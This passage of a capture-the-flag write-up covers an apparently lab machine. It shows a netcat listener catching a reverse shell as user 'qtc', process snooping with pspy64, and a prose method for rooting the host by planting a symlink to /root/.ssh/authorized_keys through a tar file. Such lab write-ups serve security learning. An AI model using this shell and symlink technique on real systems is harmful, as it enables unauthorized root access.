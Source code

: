 Right after sending the payload on new password during password change, we got a reverse shell as `qtc` user inside a docker container.

```bash
$ rlwrap nc -nvlp 4443
listening on [any] 4443 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.174] 40519
id
uid=1000(qtc) gid=1000(qtc) groups=1000(qtc)
ls -lsrta
total 16
     4 ----------    1 qtc      qtc             33 Oct 30  2019 user.txt
     4 drwxr-xr-x    1 root     root          4096 Oct 30  2019 ..
     4 drwxr-sr-x    1 qtc      qtc           4096 Oct 30  2019 .
     4 drwx------    1 qtc      qtc           4096 Oct 30  2019 .ssh
/bin/sh -i
2f265ce12800:/home/qtc$ chmod 600 user.txt
2f265ce12800:/home/qtc$ cat user.txt
7fab2c31f------------------------
```

## Local enumeration

After some hours enumerating locally and trying different exploits, found out with `pspy64` an `scp` was being done every minute from a different host.

```bash
2f265ce12800:/var/tmp$ ./pspy64 2>&1

2020/06/21 15:41:01 CMD: UID=0    PID=2571   | sshd: [accepted]
2020/06/21 15:41:01 CMD: UID=0    PID=2572   | sshd: [accepted]  
2020/06/21 15:41:01 CMD: UID=1000 PID=2573   | sshd: qtc
2020/06/21 15:41:01 CMD: UID=1000 PID=2574   | scp -f /opt/fatty/tar/logs.tar

2020/06/21 15:42:01 CMD: UID=0    PID=2575   | /usr/sbin/sshd -R
2020/06/21 15:42:01 CMD: UID=22   PID=2576   | sshd: [net]
2020/06/21 15:42:02 CMD: UID=1000 PID=2577   | sshd: qtc
2020/06/21 15:42:02 CMD: UID=1000 PID=2578   | scp -f /opt/fatty/tar/logs.tar
```

## Privilege escalation

At this point a lot of work to understand the behaviour was required to get privesc on the other host.

The behavior of all this part was:

* First upload a tar file, inside the tar a file called the same way `logs.tar` with a symlink pointing to `/root/.ssh/authorized_keys`
* The server extract the tar file and our new `logs.tar` file with the symlink replaces its own name with the link to authorized\_keys
* Then upload an authorized\_keys file with same name as the link \(Not a real tar file, just text file with tar extension\)
* While scp'ing on the server it will follow the link
* At this point `/root/.ssh/authorized_keys` is a link from to `logs.tar` with our public key on it giving us root access into the box.
